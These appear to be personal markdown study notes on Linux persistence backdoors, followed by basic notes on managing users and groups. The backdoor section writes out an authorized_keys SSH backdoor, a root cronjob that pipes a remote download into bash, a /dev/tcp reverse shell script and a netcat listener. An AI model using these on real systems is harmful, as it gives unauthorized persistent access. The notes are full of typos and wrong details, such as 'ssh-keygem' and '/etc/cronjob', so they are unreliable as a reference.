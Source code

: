 - These are not the vulnerabilities but just a way to maintain your acces on target .
- SSH key gen is the one the backdor of the to acces the system,to do so we simply run the command `ssh-keygem` .
  - Here we will have two key one private and other one will public . we can now go to /root/.ssh and leave our public key there. Don't forget to rename the public key to : authorized_keys
  - if the .ssh directory is not present then you can make the `mkdir .ssh`.
  - Before doing so, give the private key the right permissions using : chmod 600 id_rsa.
  - This backdoe isnt hidden at all anyone with the right permission can acces the desired machine ,
  - `-i` is the flag in the ssh that is use to show our private key .

- PHP backdors (This is out of my door)
 - Web root is actually located at the /var/www/html .


- CronJob Backdoors
 - This backdoor consist of creating a cronjob .
 - /etc/cronjob this represent all the task that are schdules to run at the some time on your machine ,you just need root acces to do this ,m and h stands for the minute and hour  .
 - dd this line into our cronjob file :

* *     * * *   root    curl http://<yourip>:8080/shell | bash

Notice that we put a "*" star symbol to everything. This means that our task will run every minute, every hour, every day , etc .

We first use "curl" to download a file , and then we pipe it to "bash"

The contents of the "shell" file that we are using are simply :

-------------------------------------------------

#!/bin/bash

bash -i >& /dev/tcp/ip/port 0>&1

--------------------------------------------------

We would have to run an HTTP server serving our shell.

You can achieve this by running : "python3 -m http.server 8080"

Once our shell gets downloaded, it will be executed by "bash" and we would get a shell!

*Don't forget to listen on your specified port with "nc -nvlp <port>"*

- `.bashrc` This is used for the one who have the bash as their login shell,and we can run the command to include our reverse sheel into their ".bashrc" .
- `pam_unix.so` This is the one of the backdor that is one of many file in the linux that is responsible for authentication .
 # Day 5.2
 Screen day 
  # Administrating Users and Groups .

- Modern OS require users to prove their identity. This identification process,refffered to as authentication,provides a major function .The user environament can be customized to fit that individual work on habit style .
 - The administarator shoul log on to the server with the non privillaged accounts and then elevates privilages only when it is necessary.
 - Manage the user account 
 - `/etc/passwd` file stores the actual user account and maintains
   various settings related to accounts.
 - `/etc/shadow` file stores password information for the accounts.
- It may seem odd that account information is distributed across two files and that
specifically password information is stored in a different file than user accounts .
- Each fetures are stored in the individual home directories .
- The tilde character represent the current user directory .
- `useradd` This will create the user
- `usermod`  This will modifies the existing user